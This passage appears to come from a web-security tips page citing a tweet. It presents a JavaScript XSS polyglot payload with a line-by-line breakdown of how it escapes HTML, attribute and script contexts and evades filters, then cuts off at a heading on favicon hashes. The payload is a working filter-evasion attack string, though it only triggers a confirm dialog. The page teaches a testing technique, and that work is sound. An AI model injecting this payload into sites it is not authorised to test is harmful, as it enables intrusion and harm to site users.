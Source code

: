 By [@s0md3v](https://twitter.com/s0md3v) (tweeted by [@lutfumertcey](https://twitter.com/lutfumertcey))  
Source: [link](https://twitter.com/lutfumertceylan/status/1284078795754999808)

How can you make a Javascript Polyglot for XSS? Check this super useful inforgraphics made by [@s0md3v](https://twitter.com/s0md3v):

![Javascript polyglot for XSS](assets/1710309234-faf721403a9af5911900303fb06010c4.jpg)

Here’s an ASCII version:

```bash
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>

-->          Breaks comment context
'            Breaks Attribute Context
"            Breaks attribute context
/>           Closes an open tag
</sCript>    Breaks JS context
<deTailS     A less known tag
open         To eliminate user interaction required for execution
x            Dummy attribute
">"          Mimics the closing of tag
ontoggle     A less known event handler
()           Parentheses around the function
co\u006efirm "confirm" function with Unicoded 'n'
``           Backticks instead of ()
```

Note that we may only need a certain portion of the polyglot, depending on our situation. Do not copy & paste blindly.

## 3\. Find related domains via favicon hash
